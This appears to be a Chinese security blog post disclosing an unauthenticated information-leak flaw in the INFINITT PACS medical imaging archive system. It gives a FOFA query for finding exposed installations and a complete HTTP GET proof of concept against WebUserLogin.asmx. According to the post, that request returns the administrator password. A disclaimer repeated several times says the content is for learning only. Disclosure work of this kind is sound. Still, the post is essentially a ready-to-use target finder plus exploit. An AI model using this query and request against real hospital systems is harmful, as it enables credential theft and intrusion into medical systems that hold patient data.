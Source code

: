 #  英飞达影像存档与通讯PACS系统 WebUserLogin.asmx 信息泄露漏洞   
 HK安全小屋   2025-05-28 12:27  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
英飞达医学影像存档与通信系统 WebUserLogin.asmx 接口存在信息泄露漏洞，未经身份攻击者可通过该漏洞获取系统后台管理员账户密码信息，登录后台，导致系统处于极不安全的状态。  
  
  
影响版本：  
  
英飞达影像存档与通讯PACS系统  
  
  
FOFA:  
```
"INFINITT" && (icon_hash="1474455751" || icon_hash="702238928")
```  
  
  
POC：  
```
GET /webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Connection: close
```  
  
通过该漏洞获取系统后台管理员账户密码信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2wRUKpdvl6OibjqQTSY0WWia79WKqQHiaXSQgBGH3O2F7t4UwKR0A36H5wOUdrOjibkFjcG5qgBC0Qsw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
